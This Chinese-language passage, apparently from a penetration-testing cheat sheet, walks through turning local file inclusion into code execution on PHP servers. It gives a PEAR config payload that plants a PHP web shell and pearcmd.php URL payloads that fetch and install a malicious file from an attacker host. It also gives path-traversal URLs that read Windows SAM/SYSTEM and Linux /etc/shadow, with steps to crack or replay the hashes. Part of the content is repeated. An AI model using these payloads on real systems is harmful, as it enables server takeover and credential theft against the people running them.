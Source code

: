    - 配置文件示例：

     ```php
     #PEAR_Config 0.9
     a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
     ```

2. **Method 3: download**：需要外部网络连接。

   - 攻击步骤：
     1. 通过访问`/vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php`下载并执行恶意文件。
     2. 然后，通过访问`/vuln.php?file=exec.php&c=id`执行系统命令。

3. **Method 4: install**：需要外部网络连接。

   - 攻击步骤：
     1. 通过访问`/vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php`安装恶意文件，注意`exec.php`位于`/tmp/pear/download/exec.php`。
     2. 接着，通过访问`/vuln.php?file=/tmp/pear/download/exec.php&c=id`执行系统命令。

4. **通过凭证文件从LFI到RCE**：该方法需要在应用程序内拥有高权限以读取敏感文件。

   - Windows版本操作步骤：
     1. 提取`sam`和`system`文件。
     2. 使用`samdump2 SYSTEM SAM > hashes.txt`从这些文件中提取哈希，并使用`hashcat/john`破解它们或使用Pass The Hash技术重放它们。
   - Linux版本操作步骤：
     1. 提取`/etc/shadow`文件。
     2. 破解其中的哈希值，以便通过SSH登录机器。



## 通过凭证文件从本地文件包含（LFI）到远程代码执行（RCE）

此方法需要在应用程序内具有高级权限才能读取敏感文件。

### Windows版本

首先提取`sam`和`system`文件。

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

然后使用`samdump2 SYSTEM SAM > hashes.txt`从这些文件中提取哈希值，并使用`hashcat/john`破解它们，或者通过传递哈希技术重放它们。

### Linux版本

首先提取`/etc/shadow`文件。

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

然后破解其中的哈希值以便通过SSH登录机器。
